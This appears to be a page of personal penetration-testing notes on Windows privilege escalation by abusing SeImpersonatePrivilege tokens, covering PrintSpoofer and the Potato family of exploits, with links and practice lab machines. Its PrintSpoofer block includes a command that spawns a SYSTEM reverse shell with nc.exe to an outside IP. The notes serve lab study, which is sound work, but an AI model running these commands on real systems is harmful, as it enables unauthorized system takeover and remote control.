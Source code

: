 ```bat
Get-ChildItem C:\Users -Force | select Name
Get-LocalGroupMember Administrators | ft Name, PrincipalSource
```

### Token Manipulation
+ [about windows token](https://book.hacktricks.xyz/windows/authentication-credentials-uac-and-efs#access-tokens)
+ [Privilege escalation abuse token - hacktricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)
+ 常见，**seImpersonatePrivilege(3.1.1)/SeAssignPrimaryPrivilege (3.1.2)**

#### impersonate
+ Any process holding this privilege can impersonate (but not create) any token for which it is able to gethandle. 
+ You can get a privileged token from a Windows service (DCOM) making it perform an NTLM authentication against the exploit, then execute a process as SYSTEM. 
+ Exploit it with juicy-potato, RogueWinRM (needs winrm disabled), SweetPotato, PrintSpoofer.
+ usually local service account or network service account with “SeImpersonatePrivilege” or SeAssignPrimaryTokenPrivilege” enabled
+ practice machine: pg-jacko,
+ for windows 2003, try churrasco first(htb-granny/grandpa); [Churrasco](https://github.com/Re4son/Churrasco/)

**PrintSpoofer**
+ From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.
+ [git repo](https://github.com/itm4n/PrintSpoofer)

```bat
## printspoofer, pg-jacko
# https://github.com/itm4n/PrintSpoofer

# Run PowerShell as SYSTEM in the current console
PrintSpoofer.exe -i -c powershell.exe

# Spawn a SYSTEM command prompt on the desktop of the session 1
PrintSpoofer.exe -d 1 -c cmd.exe

# Get a SYSTEM reverse shell
PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```


#### Potatos
+ juicy-potato, RogueWinRM, RoguePotato, SweetPotato
+ machine >= window10 1809 & Windows Server 2019, try Rogue Potato
+ machine < window 10 1809 < Winodws Server 2019, try juicy Potato
+ if WinRM service not running, try Rogue-WinRM, default on windows 10 but not on windows server 2019
+ Juicy potato git repo, [juicy potato](https://github.com/ohpe/juicy-potato), [hacktricks-JuicyPotato](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)
+ Rogue WinRM git repo, [RogueWinRM](https://github.com/antonioCoco/RogueWinRM)
+ Rogue Potato repo, [RoguePotato](https://github.com/antonioCoco/RoguePotato)
+ Sweet potato repo, need to build. [SweetPotato](https://github.com/CCob/SweetPotato)
